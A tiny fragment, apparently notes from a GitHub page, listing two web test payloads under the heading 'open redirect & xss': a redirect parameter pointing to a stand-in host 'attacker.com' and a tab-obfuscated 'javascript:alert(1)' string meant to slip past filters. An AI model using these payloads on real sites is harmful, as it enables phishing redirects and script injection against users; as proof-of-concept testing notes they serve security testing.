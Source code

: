# merge

===>>> open redirect & xss


payload: continue_url=attacker.com
payload: { javas%09cript:alert(1)}

